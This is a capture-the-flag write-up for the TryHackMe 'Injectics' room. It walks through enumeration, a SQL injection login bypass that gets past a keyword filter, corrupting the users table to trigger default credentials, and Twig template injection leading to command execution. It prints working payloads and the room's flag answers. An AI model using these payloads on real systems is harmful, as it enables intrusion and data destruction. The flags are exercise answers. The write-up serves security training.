# Injectics - TryHackMe Writeup

[](https://tryhackme.com/room/injectics)
[](#)

> **Room Link:** [Injectics](https://tryhackme.com/room/injectics)

---

## Table of Contents

1. [Enumeration](#enumeration)
   - [Port Scanning](#port-scanning)
   - [Directory Enumeration & Mail Log Analysis](#directory-enumeration--mail-log-analysis)
2. [Exploitation](#exploitation)
   - [Analyzing Login Logic & Filter Bypass](#analyzing-login-logic--filter-bypass)
   - [SQL Injection & Database Corruption](#sql-injection--database-corruption)
   - [Logging in as Superadmin](#logging-in-as-superadmin)
3. [Privilege Escalation & RCE](#privilege-escalation--rce)
   - [Server-Side Template Injection (SSTI) Identification](#server-side-template-injection-ssti-identification)
   - [Flag File Discovery & Retrieval](#flag-file-discovery--retrieval)
4. [Summary of Flags](#summary-of-flags)

---

## Enumeration

### Port Scanning

Initially using `rustscan` to get info about open ports:

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Injectics Leaderboard
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

### Directory Enumeration & Mail Log Analysis

Visiting the website on port 80 shows a login page:

The homepage of the site has only log in page


Let's try further enumeration via `gobuster`:

> ```
> gobuster dir -u http://[IP_ADDRESS] -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x log,txt,bak,html,php -t 80
> ```



We found several entries but the most interesting entry is `mail.log`:

> Looks like we hit some creds

```plain
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm
```

> [!IMPORTANT]
> **Key Insight from `mail.log`:**
> _"I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted."_
>
> If we corrupt or delete the `users` database table, an automated background service will re-populate it with known default credentials (`superadmin@injectics.thm` / `superSecurePasswd101`). This establishes our primary target: finding an SQL Injection vulnerability to corrupt the database.

---

## Exploitation

### Analyzing Login Logic & Filter Bypass

Inspecting client-side assets reveals `script.js` (`http://10.48.145.222/script.js`), which handles login validation:

```javascript
$("#login-form").on("submit", function (e) {
  e.preventDefault();
  var username = $("#email").val();
  var password = $("#pwd").val();

  const invalidKeywords = ["or", "and", "union", "select", '"', "'"];
  for (let keyword of invalidKeywords) {
    if (username.includes(keyword)) {
      alert("Invalid keywords detected");
      return false;
    }
  }

  $.ajax({
    url: "functions.php",
    type: "POST",
    data: {
      username: username,
      password: password,
      function: "login",
    },
    dataType: "json",
    success: function (data) {
      if (data.status == "success") {
        if (data.auth_type == 0) {
          window.location = "dashboard.php";
        } else {
          window.location = "dashboard.php";
        }
      } else {
        $("#messagess").html(
          '<div class="alert alert-danger" role="alert">' +
            data.message +
            "</div>",
        );
      }
    },
  });
});
```

And this function handles the `sqli` keyword prevention:

```js
const invalidKeywords = ["or", "and", "union", "select", '"', "'"];
for (let keyword of invalidKeywords) {
  if (username.includes(keyword)) {
    alert("Invalid keywords detected");
    return false;
  }
}
```

We can see, we cannot use keywords such as `or, and, union select ", '` or any combinations of it.
Thus we'll need to find another way to get our `sqli` work.
To bypass this, we can use encoded payloads.
Payload encoding:

```
’ → %27

OR → ||

Final payload:
a%27 || 1=1 --
```

Now let's load `burpsuite` and check what the _SERVER_ returns for or payload request.
And we got `status:success`.



After using the payload on the log in page we're now logged in as `dev`



### SQL Injection & Database Corruption

Logged in as `dev`, we can edit database entries. By intercepting the update request in Burp Suite, we inject a payload to corrupt or drop the `users` table:



Submitting the request results in database corruption:



### Logging in as Superadmin

With the database corrupted, we wait for the scheduled background monitor service (runs every minute) to execute and insert default credentials into the `users` table.

We then log in as Superadmin using the default credentials from `mail.log`:

- **Email:** `superadmin@injectics.thm`
- **Password:** `superSecurePasswd101`



> **Admin Panel Flag:** `THM{INJECTICS_ADMIN_PANEL_007}`

---

## Privilege Escalation & RCE

### Server-Side Template Injection (SSTI) Identification

Inside the Admin Panel, we locate the **Profile** section which allows updating user account details.

Because the First Name input field is dynamically rendered on the page, we test for Server-Side Template Injection (SSTI):

> [!NOTE]
> Reference for SSTI payloads across template engines:
> [PayloadsAllTheThings - Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

We submit a standard mathematical test payload into the First Name field: `{{7 * 7}}`



Upon saving, the top header renders:

> **Welcome, 49!**



See the `Welcome, 49!` at the top i.e. our `{{7*7}}` was successfully executed!.

> [!NOTE]
> **Template Engine Analysis:**
>
> - If **Django** templates were used, `{{7 * 7}}` would output `7777777`.
> - If **PHP Twig** is used, `{{7 * 7}}` evaluates to `49`.
>
> Receiving `49` confirms that **PHP Twig** is the active template engine.

### Flag File Discovery & Retrieval

The challenge asks: _"What is the content of the hidden text file in the flags folder?"_

We leverage Twig's `passthru` filter via array sorting to execute system commands and search for `.txt` files:



```twig
{{['find / -type f -name "*.txt" 2>/dev/null','']|sort('passthru')}}
```



Executing this payload returns the file search results, identifying the target hidden file path:



which means that our files name and location is:

```path
/var/www/html/flags/5d8af1dc14503c7e4bdc8e51a3469f48.txt
```

Finally, we execute `cat` on the target file path using the same Twig SSTI payload structure:



```twig
{{['cat /var/www/html/flags/5d8af1dc14503c7e4bdc8e51a3469f48.txt','']|sort('passthru')}}
```





And we got the flag:



> **Final Flag:** `THM{5735172b6c147f4dd649872f73e0fdea}`

---

## Summary of Flags

| Role / Access Level   | Flag                                    |
| :-------------------- | :-------------------------------------- |
| **Admin Panel Flag**  | `THM{INJECTICS_ADMIN_PANEL_007}`        |
| **Hidden Flag (RCE)** | `THM{5735172b6c147f4dd649872f73e0fdea}` |

---

_Room Solved!_
